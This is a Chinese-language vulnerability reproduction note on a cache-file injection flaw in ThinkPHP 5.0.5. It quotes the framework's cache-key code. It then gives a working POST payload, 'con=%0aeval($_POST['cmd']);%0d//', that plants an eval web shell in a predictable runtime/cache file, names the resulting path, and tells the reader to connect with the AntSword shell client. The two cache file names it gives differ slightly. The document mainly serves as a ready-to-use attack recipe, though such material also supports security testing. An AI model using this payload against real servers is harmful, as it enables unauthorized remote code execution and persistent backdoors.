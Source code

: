 # Thinkphp 5.0.5 缓存漏洞

### 一、漏洞简介

### 二、漏洞影响

Thinkphp 5.0.5

### 三、复现过程

漏洞分析

漏洞代码与3.2.3差不多，不一样的在缓存目录


```php
protected function getCacheKey($name)
    {
        $name = md5($name);
        if ($this->options['cache_subdir']) {
            // 使用子目录
            $name = substr($name, 0, 2) . DS . substr($name, 2);
        }
        if ($this->options['prefix']) {
            $name = $this->options['prefix'] . DS . $name;
        }
        $filename = $this->options['path'] . $name . '.php';
        $dir      = dirname($filename);
        if (!is_dir($dir)) {
            mkdir($dir, 0755, true);
        }
        return $filename;
    }
```

在index控制器写如下代码：

![](images/15893467113911.png)


之后访问 `http://url/public/index.php/Home/index` POST数据：`con=%0aeval($_POST['cmd']);%0d//`

最终在 runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php文件生成shell：

![](images/15893467351291.png)


之后访问蚁剑 `http://url/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![](images/15893467565548.png)


#### 小结

Thinkphp5.0.5

漏洞文件位置(一般审计得出)

`http://url/public/index.php/Home/Index/index`

POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

缓存文件位置b0文件夹是md5(cache-name)前2位。

`http://url/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

蚁剑连接

参考链接

https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/